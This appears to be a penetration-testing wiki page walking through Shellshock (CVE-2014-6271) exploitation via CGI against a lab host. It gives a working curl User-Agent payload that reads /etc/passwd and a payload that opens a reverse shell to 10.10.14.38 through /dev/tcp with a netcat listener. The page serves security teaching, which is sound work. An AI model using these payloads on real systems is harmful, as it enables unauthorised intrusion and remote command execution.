 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# CVE-2014-6271 - Shellshock via CGI

GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the ForceCommand feature in OpenSSH sshd, the mod\_cgi and mod\_cgid modules in the Apache HTTP Server, scripts executed by unspecified DHCP clients, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka "ShellShock."

NOTE: the original fix for this issue was incorrect; CVE-2014-7169 has been assigned to cover the vulnerability that is still present after the incorrect fix.

{% hint style="info" %}
## NIST NVD

[https://nvd.nist.gov/vuln/detail/CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
{% endhint %}

## Shellshock via CGI

The Shellshock vulnerability allows an attacker to exploit old versions of Bash that save environment variables incorrectly. Typically when saving a function as a variable, the shell function will stop where it is defined to end by the creator.

Vulnerable versions of Bash will allow an attacker to execute operating system commands that are included after a function stored inside an environment variable. Let's look at a simple example where we define an environment variable and include a malicious command afterward.

<pre class="language-bash"><code class="lang-bash"><strong>env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
</strong></code></pre>

When the above variable is assigned, Bash will interpret the `y='() { :;};'` portion as a function definition for a variable `y`. The function does nothing but returns an exit code `0`, but when it is imported, it will execute the command `echo vulnerable-shellshock` if the version of Bash is vulnerable.

This (or any other command, such as a reverse shell one-liner) will be run in the context of the web server user. Most of the time, this will be a user such as `www-data`, and we will have access to the system but still need to escalate privileges. Occasionally we will get really lucky and gain access as the `root` user if the web server is running in an elevated context.

If the system is not vulnerable, only `"not vulnerable"` will be printed.

## Enumeration

### Gobuster

We can hunt for CGI scripts using a tool such as [gobuster.md](../../../../toolbox/tooling/information-gathering/gobuster.md "mention"). Here we find one, `access.cgi`.

{% code title="Command" %}
```bash
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```
{% endcode %}

{% code title="Output" %}
```shell-session
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.204.231/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
                                             
===============================================================
2023/03/23 09:26:29 Finished
```
{% endcode %}

Next, we can cURL the script and notice that nothing is output to us, so perhaps it is a defunct script but still worth exploring further.

{% code title="Command" %}
```bash
curl -i http://10.129.204.231/cgi-bin/access.cgi
```
{% endcode %}

{% code title="Output" %}
```
HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```
{% endcode %}

## **Confirming the Vulnerability**

To check for the vulnerability, we can use a simple `cURL` command or use [burp-suite.md](../../../../toolbox/tooling/web-application-analysis/burp-suite.md "mention") Repeater or Intruder to fuzz the user-agent field. Here we can see that the contents of the `/etc/passwd` file are returned to us, thus confirming the vulnerability via the user-agent field.

{% code overflow="wrap" %}
```bash
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```
{% endcode %}

## **Exploitation to Reverse Shell Access**

Once the vulnerability has been confirmed, we can obtain reverse shell access in many ways. In this example, we use a simple Bash one-liner and get a callback on our [netcat.md](../../../../toolbox/tooling/post-exploitation/netcat.md "mention") listener.

```bash
sudo nc -lvnp 7777
```

{% code overflow="wrap" %}
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```
{% endcode %}
